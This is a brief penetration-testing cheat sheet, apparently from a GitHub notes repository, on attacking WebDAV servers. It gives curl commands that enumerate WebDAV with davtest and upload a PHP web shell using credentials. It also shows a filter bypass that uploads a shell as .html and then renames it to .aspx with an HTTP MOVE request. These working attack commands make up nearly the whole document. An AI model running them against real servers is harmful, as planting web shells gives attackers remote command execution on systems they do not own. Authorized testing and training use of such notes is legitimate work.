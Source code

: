 # Webdav

## Webdav enumeration

davtest -url http://xx.xx.xx.xx

## Upload shell 

curl -vvv --upload-file cmd.php http://xxx.xxx.xxx.xxx/webdav/cmd.php --user username:password

## Upload shell as html and rename to bypass filter

```sh
curl -vvv -T '/home/nighter/shell.html' 'http://xxx.xxx.xxx.xxx/'
curl -v -X MOVE --header 'Destination:http://xxx.xxx.xxx.xxx/shell.aspx' 'http://xxx.xxx.xxx.xxx/shell.html'
```
